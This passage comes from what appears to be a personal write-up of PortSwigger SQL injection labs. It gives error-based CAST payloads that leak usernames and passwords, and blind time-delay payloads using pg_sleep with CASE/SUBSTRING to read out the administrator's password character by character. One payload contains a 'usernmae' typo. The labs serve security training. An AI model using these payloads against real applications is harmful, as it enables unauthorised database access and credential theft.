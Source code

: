 ```
TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

 The error message now leaks the first username from the `users` table which is *administrator*:
 ```
 ERROR: invalid input syntax for type integer: "administrator"
 ```

```
 TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
 ```
 The error message now leaks the first password from the `users` table which is the actual password used for *administrator*:


## **13. Blind SQL injection with time delays**
![[Pasted image 20240629015925.png]]

Confirm that parameter is vulnerable to injection
```
TrackingId=ogAZZfxtOKUELbuJ' || (SELECT pg_sleep(10)) --
```


## **14. Blind SQL injection with time delays and information retrieval**
The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

Confirm that the parameter is vulnerable to injection
```
|| SELECT(pg_sleep(10))--
```

Confirm that the `users` table with `username`='administrator' exists
```
|| (SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) else pg_sleep(-1) END FROM users)--
```

Password length
```
|| (SELECT CASE WHEN (usernmae='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) else pg_sleep(-1) END FROM users)--
```

```
|| (SELECT CASE WHEN (username='administrator' AND LENGTH(password)>§1§) THEN pg_sleep(10) else pg_sleep(-1) END FROM users)--
```

Password enumeration
```
|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) else pg_sleep(-1) END FROM users)--
```

```
|| (SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,§1§,1)='§a§') THEN pg_sleep(10) else pg_sleep(-1) END FROM users)--
```

## **15. Blind SQL injection with out-of-band interaction**

This lab contains a [blind SQL injection](https://portswigger.net/web-security/sql-injection/blind) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

```